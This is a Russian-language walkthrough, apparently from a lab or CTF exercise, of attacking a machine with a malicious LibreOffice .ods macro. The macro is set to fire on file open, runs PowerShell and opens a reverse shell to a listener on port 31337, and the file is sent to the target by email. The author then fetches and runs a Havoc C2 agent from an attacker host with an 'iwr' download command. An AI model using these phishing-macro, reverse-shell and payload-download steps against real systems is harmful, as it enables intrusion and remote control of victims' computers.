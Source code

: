 ![[Pasted image 20241112165138.png]]

Tools --> Macros --> Organize Macros --> Basic

Вставляем макрос, который мы сгенерировали через питон.

![[Pasted image 20241112190932.png]]

Сохраняем данный макрос. И переходим в Tools --> Customize

![[Pasted image 20241112191112.png]]

Задаем правила что бы при открытии и закрытии срабатывал макрос с открытием сокета

Сохраняем файл. Если что-то не понятно, то в интернете есть полно гайдов как создавать макросы для либры в формате .ods. Можете посмотреть. Но суть простая запускается файл, а вместе с ним макрос, который выполняет команду для powershell и к нам подключается зараженная машина. Точнее мы получаем шелл=)) Сейчас все покажу.

# Отпрвавляем файл с макросом по почте

И так мы сгенерили макрос. Включили прослушиватель на 31337 порту. Теперь отправляем этот файл.

![[Pasted image 20241112191624.png]]


> [!NOTE]
> Стоит учитывать момент, что к вашему лисенеру может подключиться только устройство. Как только подключается кто-то порт занят.


![[Pasted image 20241112192035.png]]

Всё хорошо, теперь у нас есть шелл. Зальем агента C2 для удобства. Как работать с Havoc описано в предудыщей статье, в телеграм канале и в официальной документации. Еще можете видеоролик рыжего посмотреть на ютубе=)

# Закрепляемся в системе

![[Pasted image 20241112193155.png]]

Тут я начинаю понимать, что шелл слетает. Сбрасывается подключение. Нормально работать не получится с таким таймингом. Я пошел искать способы закрепиться в системе.

curl по каким-то причинам не работал. Пришлось использовать "iwr"

```
iwr http://10.0.0.114:8080/x2.exe -out x2.exe
```

Запускаем агента

```
.\x2
```
